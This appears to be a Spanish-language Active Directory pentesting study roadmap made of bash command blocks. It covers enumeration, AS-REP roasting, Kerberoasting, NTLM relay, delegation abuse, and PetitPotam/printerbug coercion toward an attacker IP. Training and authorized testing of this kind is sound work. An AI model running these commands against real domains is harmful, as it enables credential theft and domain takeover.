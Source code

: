 ##### 🔰 Pack 1 - Implementación Completa
```bash
# Día 1-3: Reconocimiento y Enumeración
echo "=== PACK 1 - DÍA 1: RECONOCIMIENTO ==="

# Enumeración SMB
enum4linux -a <target-ip>
smbclient -L //<target-ip> -N
crackmapexec smb <target-ip> --shares

# Enumeración LDAP  
ldapsearch -x -h <target-ip> -s base namingcontexts
python3 windapsearch.py -d <domain> --dc-ip <target-ip> -U

# Enumeración RPC
rpcclient -U "" -N <target-ip>
# > enumdomusers
# > enumdomgroups

# Día 4-7: Ataques de Credenciales
echo "=== PACK 1 - DÍA 4: ATAQUES CREDENCIALES ==="

# AS-REP Roasting
python3 GetNPUsers.py <domain>/ -no-pass -dc-ip <target-ip>

# Kerberoasting
python3 GetUserSPNs.py <domain>/<user>:<pass> -dc-ip <target-ip> -request

# BruteForce Kerberos
kerbrute userenum --dc <target-ip> -d <domain> users.txt

# Día 8-14: Relay Attacks
echo "=== PACK 1 - DÍA 8: RELAY ATTACKS ==="

# SMB Relay básico
python3 ntlmrelayx.py -tf targets.txt -smb2support

# Responder + Relay
sudo responder -I eth0 -dwP
python3 ntlmrelayx.py -tf targets.txt -smb2support -6
```

##### ⚡ Pack 2 - Técnicas Avanzadas
```bash
# Semana 3-4: Kerberos Avanzado
echo "=== PACK 2 - SEMANA 3: KERBEROS AVANZADO ==="

# Unconstrained Delegation
python3 findDelegation.py <domain>/<user>:<pass>
# Si se encuentra delegación:
python3 getST.py -spn <target-spn> -impersonate <admin-user> <domain>/<delegated-user>

# RBCD Abuse
python3 rbcd.py <domain>/<user>:<pass> -delegate-to <target>$ -delegate-from <controlled-machine>$

# S4U2Self/S4U2Proxy
python3 getST.py -spn <service-spn> -impersonate <target-user> <domain>/<service-account>

# Semana 5-6: Coerción y CVEs
echo "=== PACK 2 - SEMANA 5: COERCIÓN Y CVES ==="

# Coerción de autenticación
python3 printerbug.py <domain>/<user>:<pass>@<target> <attacker-ip>
python3 PetitPotam.py <attacker-ip> <target-ip>
```